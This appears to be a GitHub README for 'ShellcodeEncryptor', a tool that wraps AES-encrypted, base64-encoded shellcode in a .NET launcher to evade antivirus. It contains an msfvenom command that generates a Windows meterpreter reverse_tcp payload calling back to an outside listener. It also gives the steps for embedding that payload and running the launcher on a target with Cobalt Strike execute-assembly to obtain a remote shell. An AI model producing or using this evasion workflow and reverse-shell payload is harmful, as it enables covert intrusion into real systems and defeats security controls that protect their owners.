 # ShellcodeEncryptor
A simple shell code encryptor/decryptor/executor to bypass anti virus.

# Purpose
To generate a .Net binary containing base64 encoded, AES encrypted shellcode that will execute on a target, bypassing anti-virus.

If you find the workflow a little cumbersome, feel free to take the code and make something useful of it, but to quote a famous philosopher:
> Life moves pretty fast. If you don't stop and look around once in a while, you could miss it.

# Instructions

Create a meterpreter payload using `msfvenom`:
```
msfvenom -p windows/meterpreter/reverse_tcp LPORT=443 LHOST=10.10.14.5 -f csharp
```
Copy the byte array and paste it into the shellcode variable in `encryptor.cs`
```
byte[] shellcode = new byte[]
{
... here ...
};
```
Compile it, run it then copy the base64 string. Paste the string into the `shellcodeb64` variable in launcher.cs.
```
string shellcodeb64 = "...here...";
```
Take the resulting executable and run it on the target, for example (Cobalt Strike):
```
execute-assembly ./uploads/launcher.exe
```

Hopefully you will have a meterpreter shell.
